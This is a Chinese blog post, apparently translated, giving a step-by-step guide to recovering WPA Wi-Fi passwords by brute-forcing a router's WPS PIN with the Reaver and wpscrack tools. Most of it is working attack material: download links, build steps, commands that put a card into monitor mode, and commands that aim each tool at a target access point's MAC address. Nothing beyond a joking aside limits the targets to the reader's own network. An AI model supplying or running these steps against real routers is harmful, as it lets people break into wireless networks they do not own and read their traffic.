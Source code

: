 ```yaml
---
layout: post
title: "通过破解WPS PIN Hack WPA WIFI密码"
date: 2017-11-26
excerpt: "破解WPA"
translation: ture
tags: []
comments: true
---
```


WPS或者说WiFi Protected Setup（WiFi保护设置）的一个漏洞已经被TNS（译者注：一家安全公司）发现了一年多了，最终开发并验证出了利用代码。TNS，漏洞发现者和.braindump的Stefan都开发了他们各自的“reaver”和“wpscrack”程序来利用WPS的漏洞。 从这个漏洞攻击中，一旦接入点WPS的攻击启动，通常需要2-10个小时（取决于你使用哪个程序，）WPA密码几乎可以立即以明文方式恢复。

这种攻击通过对静态WPS PIN进行智能暴力破解来攻破WPS。通过猜测PIN码，路由器实际上会返回，无论前四位（8位）是否正确。然后，最终数是用于满足算法的检查数。这可以被用来暴力破解WPS PIN，并可以在非常短的时间内恢复WPA密码，而不是在WPA标准里攻击。

在这篇文章中，让我们来看看如何使用这两个工具来破解WPS。到目前为止，还没有路由器可以安全地抵御这种攻击，但是没有任何厂商已经做出响应，以及发布固件或采取缓解措施。即使禁用WPS，也会在大多数路由器上实现这种攻击。

## 要求

- 一台计算机（或一台虚拟机）运行了Kali Linux OS。如果你是一个初学者的话，可以买一个我们的[Kali Pi](https://null-byte.wonderhowto.com/how-to/set-up-headless-raspberry-pi-hacking-platform-running-kali-linux-0176182/)，运行在35美元的Raspberry Pi上（译者注：广告...）
- 一台运行WPS的路由器
- 一个可以在监听模式下进行包注入的无线网卡（译者注：又是一段广告...省略了）
- 下列软件（以软件包名安装）：aircrack-ng, python-pycryptopp, python-scapy, libpcap-dev

## 工具

- [Reaver](http://reaver-wps.googlecode.com/files/reaver-1.3.tar.gz)（支持所有路由器）
- [wpscrack](dl.dropbox.com/u/22108808/wpscrack.zip) （快，但是只支持主要品牌的路由器）

## 破解WPS

按照下面选择使用的工具对应的指南进行操作。

### Reaver

1.解压 Reaver

	unzip reaver-1.3.tar.gz

2.改变Reaver地址

	cd reaver-1.3

3.配置，编译和安装应用程序

	./configure && make && sudo make install

4.扫描一个AP并复制它的MAC地址备用

	sudo iwlist scan wlan0

5.设置你的设备为监听模式

	sudo airmon-ng start wlan0

6.运行工具攻击AP

	reaver -i mon0 -b <MA:CA:DD:RE:SS:XX> -vv

7.等，直到完成

这个工具会让这变得很简单

## wpscrack.py

1.使程序可执行

	chmod +x wpscrack.py

2.扫描一个AP并复制它的MAC地址备用

	sudo iwlist scan wlan0

3.获取你的MAC地址备用

	ip link show wlan0 | awk '/ether/ {print $2}'

4.设置你的设备为监听模式

	sudo airmon-ng start wlan0

5.攻击你的AP

	wpscrack.py –iface mon0 –client <your MAC, because you're attacking yourself, right?> –bssid <AP MAC address> --ssid <name of your AP> -v

6.等待胜利

现在，让我们相信在不久的将来我们可以看到大量固件的更新，不然在这个世界会有很多地方陷入麻烦。


